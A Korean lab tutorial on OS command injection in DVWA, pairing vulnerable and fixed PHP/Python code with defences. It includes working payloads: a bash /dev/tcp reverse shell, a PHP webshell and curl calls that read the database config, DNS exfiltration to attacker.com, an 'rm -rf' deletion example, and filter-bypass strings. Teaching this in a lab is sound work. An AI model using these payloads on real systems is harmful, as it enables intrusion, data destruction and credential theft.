




## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.0.10) |
| 대상 | Ubuntu + DVWA (192.168.0.30/DVWA/) |
| 도구 | nc (netcat), tcpdump, curl |

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A05:2025 – Injection** (구 A03:2021) |
| CWE | CWE-78 (OS 명령에 사용되는 특수 요소의 부적절한 처리) |
| 영향 | 서버에서 임의 OS 명령 실행 → Reverse Shell·웹쉘로 **완전한 서버 장악(RCE)** |
| 한 줄 핵심 | 사용자 입력이 **OS 셸 명령의 일부**로 해석되어, 셸 메타문자(`;`,`|`,`&&`)로 명령이 덧붙음 |

> SQLi(01)·XSS(02)와 함께 **A05 Injection**(구 A03:2021) 군이다. 단, 결과가 **OS 명령 실행(RCE)** 이라 영향도가 가장 크다.  
> 방어 원리는 동일 — **사용자 입력을 명령 문자열에 합치지 말 것**(배열 인자 + 화이트리스트).
{: .prompt-info }

---

## 1. 이론: Command Injection이란

### 1.1 개념

Command Injection은 웹 애플리케이션이 **사용자 입력을 OS 명령에 직접 포함하여 실행**할 때,  
공격자가 임의의 시스템 명령을 서버에서 실행할 수 있게 되는 취약점이다.



공격자가 IP 입력창에 `127.0.0.1; cat /etc/passwd` 를 입력하면,  
서버는 `ping -c 1 127.0.0.1; cat /etc/passwd` 를 그대로 실행한다.

> **영향 범위**: 파일 열람, 데이터 삭제, 리버스 쉘 획득, 내부망 이동(Lateral Movement)까지 가능한 **고위험** 취약점이다.
{: .prompt-danger }

---

### 1.2 PHP에서 Command Injection 예시

**취약한 코드**:

```php
<?php
// 사용자 입력을 그대로 OS 명령에 포함
$target = $_GET['ip'];
system("ping -c 1 " . $target);
?>
```

공격 시나리오:

```
# 서버 데이터 삭제
ip=127.0.0.1; rm -rf /var/www/html/

# 계정 정보 열람
ip=127.0.0.1; cat /etc/passwd

# 리버스 쉘 연결
ip=127.0.0.1; bash -i >& /dev/tcp/192.168.0.10/4444 0>&1
```

**안전한 코드**:

```php
<?php
// escapeshellarg()로 입력값을 인수 하나로 묶어 명령 삽입 차단
$target = escapeshellarg($_GET['ip']);
system("ping -c 1 " . $target);
?>
```

`escapeshellarg()` 는 입력값 전체를 작은따옴표로 감싸고 내부의 따옴표를 이스케이프한다.  
공격자의 `;`, `|`, `&&` 등이 명령 구분자가 아닌 일반 문자열로 처리된다.

---

### 1.3 Python/Flask에서 Command Injection 예시

**취약한 코드**:

```python
import os
from flask import request

host = request.args.get('host')
os.system(f"ping -c 1 {host}")
# 공격: host=127.0.0.1;bash -i >& /dev/tcp/192.168.0.10/4444 0>&1
# → Reverse Shell 생성
```

**안전한 코드**:

```python
import subprocess

# shell=False 로 설정하면 리스트의 각 요소가 개별 인수로 처리됨
# 사용자 입력이 명령에 삽입되지 않고 단순 문자열로 전달됨
subprocess.run(["ping", "-c", "1", host], shell=False)
```

> `subprocess.run()` 에서 `shell=False` 가 기본값이지만, 명시적으로 작성하는 것이 좋다.  
> `shell=True` 는 `os.system()` 과 동일하게 취약하므로 사용자 입력이 포함될 때는 절대 사용하지 않는다.
{: .prompt-warning }

---

### 1.4 주요 명령어 구분자

| 구분자 | 설명 | 예시 |
|---|---|---|
| `;` | 앞 명령 성공 여부와 무관하게 실행 | `ping 127.0.0.1; id` |
| `&&` | 앞 명령 성공 시에만 실행 | `ping 127.0.0.1 && id` |
| `\|\|` | 앞 명령 실패 시에만 실행 | `ping x \|\| id` |
| `\|` | 앞 명령의 출력을 뒤 명령에 파이프 | `echo test \| id` |
| `` `cmd` `` | 명령 치환 (백틱) | `` ping `whoami`.attacker.com `` |
| `$(cmd)` | 명령 치환 (달러 괄호) | `ping $(whoami).attacker.com` |
| `%0a` | URL 인코딩된 줄바꿈 (newline) | `127.0.0.1%0aid` |

---

### 1.5 Reverse Shell 개념

일반적인 원격 제어(Normal Shell)는 공격자가 서버에 연결을 시도한다.  
그러나 서버에 방화벽이 있으면 **인바운드(외부 → 서버) 연결**은 차단된다.

**Reverse Shell**은 반대 방향이다.  
서버(공격 대상)가 **공격자에게 먼저 연결**을 시도하여 쉘을 전달한다.  
방화벽이 아웃바운드(서버 → 외부) 트래픽은 대부분 허용하기 때문에 우회가 가능하다.



| 구분 | Normal Shell | Reverse Shell |
|---|---|---|
| 연결 방향 | 공격자 → 서버 | 서버 → 공격자 |
| 방화벽 우회 | 인바운드 차단 시 불가 | 아웃바운드 허용이면 가능 |
| 리스너 위치 | 서버 | 공격자 PC |

---

### 1.6 Verbose vs Blind Command Injection

| 구분 | 설명 | 탐지 방법 |
|---|---|---|
| **Verbose** | 명령 실행 결과가 화면에 직접 출력됨 | 결과 페이지에서 바로 확인 |
| **Blind** | 결과가 화면에 표시되지 않음 | Ping/DNS 요청으로 간접 확인 |

**Blind 탐지 예시**: 공격자 서버로 Ping을 보내게 하여 요청 수신 여부로 실행 확인

```bash
# DVWA에 입력
127.0.0.1; ping -c 1 192.168.0.10

# Kali에서 ICMP 수신 대기
sudo tcpdump -i eth0 icmp
# 패킷이 수신되면 명령이 실행된 것
```

**DNS 기반 Blind 탐지**:

```bash
# 명령 치환을 이용해 명령 실행 결과를 도메인으로 만들어 DNS 요청 발생
127.0.0.1; ping -c 1 `whoami`.attacker.com
# → whoami 결과가 서브도메인이 되어 attacker.com DNS 로그에 기록됨
```

> Blind Command Injection은 결과가 안 보이더라도 명령은 서버에서 실행되고 있다.  
> 응답 시간 지연(Time-based) 또는 외부 서버 요청(Out-of-band)으로 탐지한다.
{: .prompt-tip }

---

## 2. 실습 1 — Low 레벨 기본 명령 삽입

**경로**: `http://192.168.0.30/DVWA/vulnerabilities/exec/`

### 2.1 기본 동작 확인

IP 입력창에 정상 입력:

```
127.0.0.1
```

화면에 ping 결과가 출력되면 **Verbose** 방식임을 확인.

### 2.2 명령어 삽입 테스트

아래 입력값들을 순서대로 시도하여 결과를 확인한다.

```
127.0.0.1; id
```

```
127.0.0.1; whoami
```

```
127.0.0.1; uname -a
```

```
127.0.0.1; cat /etc/passwd
```

```
127.0.0.1; ls /var/www/html
```

```
127.0.0.1; ifconfig
```

각 입력 후 웹 페이지에 ping 결과에 이어서 명령 실행 결과가 출력되는 것을 확인한다.

> Low 레벨은 사용자 입력에 아무런 필터링 없이 `shell_exec()` 또는 `system()` 에 그대로 전달한다.
{: .prompt-info }

---

## 3. 실습 2 — Reverse Shell 획득

### 3.1 공격 흐름



### 3.2 진행 절차

**1단계: Kali에서 netcat 리스너 실행**

```bash
nc -lvnp 4444
```

| 옵션 | 설명 |
|---|---|
| `-l` | 리스닝 모드 (연결 대기) |
| `-v` | verbose (상세 출력) |
| `-n` | DNS 조회 없이 IP 직접 사용 |
| `-p 4444` | 대기할 포트 번호 |

**2단계: DVWA Command Injection 입력창에 Reverse Shell 명령 입력**

```
127.0.0.1; bash -i >& /dev/tcp/192.168.0.10/4444 0>&1
```

**3단계: URL 인코딩 버전 (필터 우회 시 활용)**

```
127.0.0.1%3B+bash+-i+>%26+/dev/tcp/192.168.0.10/4444+0>%261
```

**4단계: Kali 터미널에서 쉘 획득 확인**

```
listening on [any] 4444 ...
connect to [192.168.0.10] from (UNKNOWN) [192.168.0.30] 54321
bash: no job control in this shell
www-data@ubuntu:/var/www/html/dvwa/vulnerabilities/exec$
```

`www-data` 계정으로 Ubuntu 서버의 쉘을 획득한 상태다.

> **Reverse Shell은 공격자가 서버를 완전히 제어하는 가장 위험한 단계다.**  
> 실습 환경에서만 수행하고, 외부 시스템에는 절대 시도하지 않는다.
{: .prompt-danger }

---

## 4. 실습 3 — Webshell 설치

### 4.1 PHP Webshell 업로드

Reverse Shell 없이도 웹쉘을 파일로 서버에 저장하면 영구적인 접근이 가능하다.

**DVWA Command Injection에 입력**:

```
127.0.0.1; echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/DVWA/hackable/uploads/shell.php
```

### 4.2 Webshell 활용

Kali에서 curl로 웹쉘을 통해 명령 실행:

```bash
# 현재 계정 확인
curl "http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=id"

# 시스템 정보 확인
curl "http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=uname+-a"

# 민감 파일 열람 — www-data 권한으로 읽을 수 있는 DB 설정 파일(계정·비밀번호 노출)
curl "http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=cat+/var/www/html/DVWA/config/config.inc.php"

# 디렉터리 목록 확인
curl "http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=ls+-la+/var/www/html"
```

> 웹쉘은 웹 서버 계정인 **`www-data` 권한**으로 동작한다. 그래서 `/etc/passwd`나 DB 설정 파일(`config.inc.php`)은 읽히지만, `/etc/shadow`처럼 **root 전용 파일은 "Permission denied"** 가 난다. 이 파일들을 읽으려면 별도의 **권한 상승(Privilege Escalation)** 이 필요하다.
{: .prompt-tip }

### 4.3 Webshell 탐지 및 정리

```bash
# 실습 후 웹쉘 삭제
curl "http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=rm+/var/www/html/DVWA/hackable/uploads/shell.php"
# 또는 SSH로 직접 삭제
```

> 웹쉘은 사후에도 남아 지속적인 백도어 역할을 한다.  
> 실습 후 반드시 삭제하고, 실제 환경에서 발견 시 파일 생성 시각·내용·연관 로그를 포렌식한다.
{: .prompt-warning }

---

## 5. 실습 4 — Blind Command Injection 탐지

### 5.1 ICMP 기반 탐지

**1단계: Kali에서 tcpdump로 ICMP 패킷 수신 대기**

```bash
sudo tcpdump -i eth0 icmp
```

**2단계: DVWA Command Injection 입력**

```
127.0.0.1; ping -c 3 192.168.0.10
```

**3단계: Kali tcpdump 출력에서 ICMP 요청 확인**

```
192.168.0.30 > 192.168.0.10: ICMP echo request, id 1234, seq 1, length 64
192.168.0.30 > 192.168.0.10: ICMP echo request, id 1234, seq 2, length 64
192.168.0.30 > 192.168.0.10: ICMP echo request, id 1234, seq 3, length 64
```

3개의 ICMP 요청이 수신되면 명령이 실행된 것이 확인된다.

### 5.2 Time-based 탐지

명령 실행 시간 차이로 취약점 존재 여부를 판단:

```
# sleep 10: 응답이 10초 지연되면 명령 실행 확인
127.0.0.1; sleep 10
```

---

## 6. 실습 5 — Medium 레벨 필터 우회

### 6.1 Medium 레벨 필터 분석

Medium 레벨은 `&&` 와 `;` 를 필터링하여 명령 삽입을 막으려 한다.

**DVWA Medium 레벨 소스 코드 (일부)**:

```php
<?php
// Medium level
$substitutions = array(
    '&&' => '',
    ';'  => '',
);
$target = str_replace(array_keys($substitutions), $substitutions, $target);
```

이 필터는 `&&` 와 `;` 만 제거하므로 다른 구분자를 사용하면 우회 가능하다.

### 6.2 우회 방법

`|` (파이프) 사용:

```
127.0.0.1 | id
```

`||` (OR) 사용 — 앞 명령 실패 시 실행:

```
127.0.0.1 || id
```

줄바꿈 문자 (`%0a`) 사용:

```
127.0.0.1%0aid
```

> **단순 블랙리스트 필터링은 우회된다.** 구분자의 종류가 다양하기 때문에  
> 화이트리스트 방식(IP 형식만 허용)으로 검증해야 한다.
{: .prompt-warning }

### 6.3 레벨별 공격·방어 한눈에

| 레벨 | 서버 측 방어 | 공격(우회) 원리 | 방어 한계 |
|---|---|---|---|
| **Low** | 없음 | 구분자(`;`, `&&`)로 명령 이어붙이기 | 검증 자체가 없음 |
| **Medium** | `&&`, `;` 문자열 제거 (블랙리스트) | 막지 않은 **파이프·개행(`%0a`)** 구분자로 우회 | 빠뜨린 구분자로 우회 |
| **High** | 다수 특수문자 블랙리스트 (단, 필터 버그 존재) | "파이프+공백"은 막지만 **공백 없는 파이프**는 누락 | 블랙리스트의 미세한 누락 |
| **Impossible** | IP를 4옥텟으로 분리해 **각 옥텟 `is_numeric()` 화이트리스트** 검증 | 셸 메타문자가 숫자 검증을 통과 못 해 불가 | — (근본 방어) |

레벨별 대표 페이로드 (DVWA `ping` IP 입력칸에 입력):

```bash
# Low — 세미콜론/AND 로 명령 분리
127.0.0.1; cat /etc/passwd
127.0.0.1 && id

# Medium — &&,; 가 제거되므로 파이프/개행으로 우회
127.0.0.1 | cat /etc/passwd
127.0.0.1 || id

# High — '| '(파이프+공백)은 막지만 '|'(공백 없는 파이프)는 누락
127.0.0.1|cat /etc/passwd
```

> 핵심: 블랙리스트(Medium/High)는 항상 빠뜨린 문자가 있다. 특히 **High의 "파이프+공백 vs 공백 없는 파이프" 버그**가 대표적 교훈이다.  
> Impossible의 **입력 형식 화이트리스트 + OS 명령 미사용**(7장)만이 RCE를 차단한다.
{: .prompt-tip }

---

## 7. 방어 방법

### 7.1 방어 원칙 — 사용자 입력을 OS 명령에 포함하지 않기

가장 근본적인 방어는 **OS 명령 자체를 사용하지 않는 것**이다.  
ping, nslookup 등의 기능이 필요하다면 OS 명령 대신 언어 내장 라이브러리를 사용한다.

| 기능 | 위험한 방법 | 안전한 방법 |
|---|---|---|
| Ping | `system("ping " . $ip)` | PHP: `fsockopen()` 소켓 사용 |
| DNS 조회 | `exec("nslookup " . $host)` | PHP: `gethostbyname()` |
| 포트 확인 | `shell_exec("nc -z " . $host)` | Python: `socket.connect_ex()` |

### 7.2 불가피하게 OS 명령을 써야 할 때

**PHP**:

```php
<?php
// 입력 화이트리스트 검증: IP 형식만 허용
$ip = $_GET['ip'];
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die("유효하지 않은 IP 주소입니다.");
}
// escapeshellarg로 인수 이스케이프
$safe_ip = escapeshellarg($ip);
system("ping -c 1 " . $safe_ip);
?>
```

**Python**:

```python
import subprocess
import ipaddress

def ping_host(ip_str):
    # 화이트리스트: IP 형식 검증
    try:
        ipaddress.ip_address(ip_str)
    except ValueError:
        return "유효하지 않은 IP 주소입니다."

    # shell=False: 리스트로 전달하여 명령 삽입 불가
    result = subprocess.run(
        ["ping", "-c", "1", ip_str],
        shell=False,
        capture_output=True,
        text=True,
        timeout=5
    )
    return result.stdout
```

### 7.3 방어 체크리스트

| 항목 | 설명 |
|---|---|
| OS 명령 사용 금지 | 가능하면 언어 내장 라이브러리 사용 |
| 화이트리스트 검증 | IP 주소 형식 등 허용할 패턴만 명시 |
| PHP escapeshellarg | 인수 전체를 따옴표로 묶어 삽입 차단 |
| PHP escapeshellcmd | 명령 전체의 메타문자 이스케이프 |
| Python shell=False | subprocess에서 셸 해석 비활성화 |
| 최소 권한 원칙 | 웹 서버 계정(www-data)에 불필요한 명령 실행 권한 제거 |
| WAF 적용 | `;`, `\|`, `&&` 등 명령 구분자 패턴 탐지/차단 |
| 오류 메시지 숨김 | 명령 실행 오류 메시지를 사용자에게 노출하지 않음 |

> **핵심**: 입력 검증은 블랙리스트가 아닌 **화이트리스트** 방식으로.  
> 허용할 값의 패턴을 정의하고 그 외는 모두 거부해야 안전하다.
{: .prompt-tip }

---

## 8. 정리



Command Injection은 단순해 보이지만 서버의 완전한 제어권을 넘겨주는 **OWASP Top 10** 핵심 취약점이다.

1. **공격 원리**: 사용자 입력이 OS 명령에 포함되어 서버에서 실행됨
2. **위험성**: Reverse Shell → 서버 완전 장악, Webshell → 영구 백도어
3. **방어 핵심**: OS 명령 사용 자제 + 화이트리스트 입력 검증 + 안전한 API 사용

DVWA 실습을 통해 Low → Medium 순서로 공격 방법과 필터 우회를 직접 확인하고,  
각 레벨의 소스 코드를 비교하면서 왜 Impossible 레벨만이 안전한지 이해하는 것이 목표다.
